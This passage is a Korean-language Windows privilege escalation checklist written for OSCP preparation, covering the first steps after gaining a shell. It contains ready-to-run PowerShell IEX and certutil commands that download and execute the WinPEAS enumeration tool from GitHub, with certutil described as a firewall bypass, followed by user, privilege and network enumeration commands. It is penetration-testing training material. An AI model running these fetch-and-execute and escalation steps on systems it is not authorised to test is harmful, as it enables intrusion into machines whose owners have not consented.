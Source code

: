 # 🪟 Windows Privilege Escalation Checklist

> **OSCP 필수**: Windows 쉘 획득 후 SYSTEM/Administrator 권한 얻기까지 체계적 가이드

## ⚡ 즉시 실행할 명령어들

### 🚀 첫 30초에 할 것들 (백그라운드로 실행)

```powershell
# PowerShell에서 실행 (WinPEAS 다운로드 및 실행)
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')

# 또는 CMD에서
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"

# winPEAS.exe 다운로드 (방화벽 우회시)
certutil -urlcache -split -f "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.exe" winpeas.exe
.\winpeas.exe
```

### 🔍 즉시 확인할 핵심 항목들

```cmd
# 기본 시스템 정보
whoami
whoami /priv
whoami /groups
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# 네트워크 정보
ipconfig /all
netstat -ano | findstr LISTENING

# 사용자 및 그룹 정보
net user
net localgroup administrators
```

## 📋 단계별 체크리스트 (시간순)

### 🕐 0-5분: 기본 정보 수집

- [ ] **시스템 정보 확인**

  ```cmd
  whoami
  whoami /priv
  whoami /groups
  systeminfo
  hostname
  echo %USERNAME%
  echo %COMPUTERNAME%
  ```
